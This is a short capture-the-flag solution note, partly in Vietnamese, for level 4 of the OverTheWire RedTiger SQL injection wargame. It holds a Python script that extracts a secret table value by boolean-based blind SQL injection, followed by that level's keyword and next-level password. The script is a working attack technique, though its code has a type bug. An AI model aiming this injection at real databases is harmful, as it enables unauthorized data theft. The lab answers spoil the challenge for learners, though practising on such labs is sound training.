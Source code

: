 đọc lỗi này ở:
http://voice0fblackhat.blogspot.com/2012/01/detailed-boolean-based-blind-injection.html

```sh
import urllib2
import re
headers1 = {'Cookie': 'level4login=there_is_no_bug'}
url1="http://redtiger.labs.overthewire.org/level4.php?id=1%20and%20ascii(substring((SELECT%20keyword%20FROM%20level4_secret)"
ketqua=''
for i in range(1,27):
	for j in range(48,122):		
		url=url1+',%d,1))=%d'%(i,j)
		line=urllib2.Request(url=url,headers=headers1)
		line2=urllib2.urlopen(line).read()
		if "1 rows" in line2:
			ketqua=ketqua+j
			print j
			break
print ketqua
```
keyword: `killstickswithbr1cks!`

The password for the next level is: `there_is_a_truck` 
